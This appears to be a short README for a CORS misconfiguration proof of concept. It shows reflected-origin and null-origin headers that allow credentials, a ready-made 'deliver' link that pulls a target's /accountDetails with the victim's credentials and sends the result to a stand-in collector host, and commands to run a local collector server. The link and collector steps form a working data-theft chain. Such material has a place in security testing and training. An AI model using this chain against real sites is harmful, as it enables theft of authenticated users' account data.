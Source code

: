 # CORS PoC (local lab)

# case 1 reflections
Access-Control-Allow-Origin: https://malicious-website.com

Access-Control-Allow-Credentials: true

# case 2 null origin
Access-Control-Allow-Origin: null

Access-Control-Allow-Credentials: true

# exfill
Now you can send a single “deliver” link such as:

https://ythone.github.io/cors_poc/deliver.html?target=https://TARGET/accountDetails&creds=1&exfil=https://your-collector.example/collect

https://ythone.github.io/cors_poc/deliver.html
  ?target=https://TARGET/accountDetails
  &creds=1
  &exfil=https://your-collector.example/collect

# local test
Run locally:

npm i
node server.js
# -> POST target data to http://localhost:8089/collect ; view http://localhost:8089/logs


Point your PoC’s exfil to that /collect endpoint.
